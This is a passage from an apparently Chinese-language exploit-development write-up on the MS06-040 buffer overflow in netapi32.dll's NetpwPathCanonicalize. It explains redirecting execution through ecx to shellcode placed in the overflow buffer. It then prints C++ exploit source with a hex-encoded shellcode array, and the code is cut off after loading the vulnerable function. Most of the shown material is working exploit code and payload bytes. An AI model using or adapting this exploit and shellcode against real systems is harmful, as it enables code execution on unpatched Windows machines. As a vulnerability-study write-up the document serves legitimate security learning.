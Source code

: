 观察在retn时, ecx指向缓冲区的开始

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x07.png)

可以把shellcode布置在"bbbbbb...."串里, 用一条call/jmp ecx跳到栈上执行

```
// ms06_040_exp.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"
#include <windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

char shellcode[]=
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;
	
	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[] = "./netapi32.dll";
	char VulFunc[] = "NetpwPathCanonicalize";

	LibHandle = LoadLibrary(dll);
	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
```